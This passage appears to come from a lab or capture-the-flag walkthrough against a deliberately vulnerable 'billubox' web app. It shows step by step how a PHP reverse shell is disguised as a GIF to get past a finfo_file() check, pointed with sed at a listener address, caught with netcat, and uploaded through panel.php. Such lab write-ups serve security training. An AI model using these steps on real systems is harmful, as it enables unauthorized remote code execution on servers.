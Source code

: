 20. You may have noticed that the user add functionality lets me upload a picture.  Let's take a look at how that function works.  If we continue looking at the `panel.php` source code, further down in the code, we see that uploaded image files are moved by `move_uploaded_file()` into `./uploaded_images/`. So could we upload a file with PHP code in it, by pretending it's the picture (image file) for a new user we are creating? Here's that line of code that shows the movement of uploaded image files.

    ```
    if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
    ```

21. Let's create a file with PHP code that looks like an image file. We can't put the right extension on the file, because `panel.php` checks to make sure that the file is actually an image. Luckily for us, it does that check using the PHP `finfo_file()` function, which is easily fooled.  If our uploaded "image" file's first line is `GIF89`, PHP's `finfo_file()` function will decide our file is a valid `GIF` file.  Create a `php-reverse.gif` file, starting with that magic `GIF89` line:

    ```shell
    echo "GIF89" >php-reverse.gif
    ```
    
22. Next, append the PHP reverse shell program from Kali Linux's `/usr/share/webshells/php/` directory:

    ```shell
    cat /usr/share/webshells/php/php-reverse-shell.php >>php-reverse.gif
    ```
    
23. We need to change the stock destination IP address and port in that file. We can do that with the `sed` command. We use `'s/127.0.0.1/10.23.58.30/'` to tell `sed` to substitute any occurence of the regular expression `127.0.0.1` with the text `10.23.58.30`. We use `sed`'s `-i` flag to tell it to alter a file in-place. We then use a second `sed` command to do the same kind of substition for `1234`, changing it to `4444`.

    ```shell    
    sed -i 's/127.0.0.1/10.23.58.30/' php-reverse.gif
    sed -i 's/1234/4444/' php-reverse.gif
    ```

24. Set up a netcat listener to catch the shell:

    ```shell
    nc -l -p 4444
    ```

25. Now go back to the browser, which is logged into `panel.php`, and choose the "Add User" option, clicking continue.

26. Click browse to upload your hostile `php-reverse.gif` image.

27. Fill in any name and any postal address, then click the upload button.

28. Now we need to trigger the `panel.php` POST with the load variable set to the path of our hostile `php-reverse.gif` image.  We won't use curl for this, because we want to use our current session state.

    Let's make this easier on ourselves and create a replica of the form components.  We've done this for you, basically by pulling down a copy of the form with `curl`, then adding this to the form tag: `action="http://billubox/panel.php"`.  You can use the form we've created for you by copying this link into your browser's URL bar and hitting the enter key.
